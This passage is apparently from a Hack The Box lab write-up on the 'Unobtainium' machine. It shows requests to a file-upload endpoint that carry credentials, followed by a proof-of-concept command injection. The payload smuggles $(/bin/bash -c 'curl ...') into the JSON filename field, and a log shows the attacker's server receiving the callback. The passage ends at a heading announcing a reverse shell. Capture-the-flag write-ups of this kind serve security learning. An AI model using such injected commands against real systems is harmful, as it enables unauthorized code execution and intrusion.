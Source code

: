 UPLOAD REQUEST:
  POST /upload HTTP/1.1
  Host: unobtainium.htb:31337
  Connection: keep-alive
  Content-Length: 73
  Accept: application/json, text/javascript, */*; q=0.01
  User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) unobtainium/1.0.0 Chrome/87.0.4280.141 Electron/11.2.0 Safari/537.36
  Content-Type: application/json
  Accept-Encoding: gzip, deflate
  Accept-Language: en-US

  {"auth":{"name":"felamos","password":"Winter2021"},"filename":"test"}

UPLOAD RESPONSE:
  HTTP/1.1 200 OK
  X-Powered-By: Express
  Content-Type: application/json; charset=utf-8
  Content-Length: 34
  ETag: W/"22-fICdI/zK18UFTsKni+1vLp+RWvE"
  Date: Tue, 25 May 2021 13:53:54 GMT
  Connection: keep-alive
  Keep-Alive: timeout=5

  {"ok":true,"Uploaded_File":"test"}

After being stuck here for many hours trying to find how the upload function works, I found a post about bash variable substitution
in JSON. If the function executes we could in theory get command execution directly via the upload function.

Lets test it out with a simple poc first.

cURL POC REQUEST:
  POST /upload HTTP/1.1
  Host: unobtainium.htb:31337
  ..
  {"auth":{"name":"felamos","password":"Winter2021"},"filename":"$(/bin/bash -c 'curl http://10.10.14.6/test.txt')"}

cURL POC RESPONSE:
  HTTP/1.1 200 OK
  ..
  {"ok":true,"Uploaded_File":"$(/bin/bash -c 'curl http://10.10.14.6/test.txt')"}

PYTHON HTTP.SERVER:
[root:/git/htb/unobtainium]# python3 -m http.server 80                                                                            (master✱)
  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
  10.10.10.235 - - [25/May/2021 15:43:32] "GET /test.txt HTTP/1.1" 200 -

WE GOT CODE EXECUTION!


5. Weaponize the PoC to get a reverse shell.
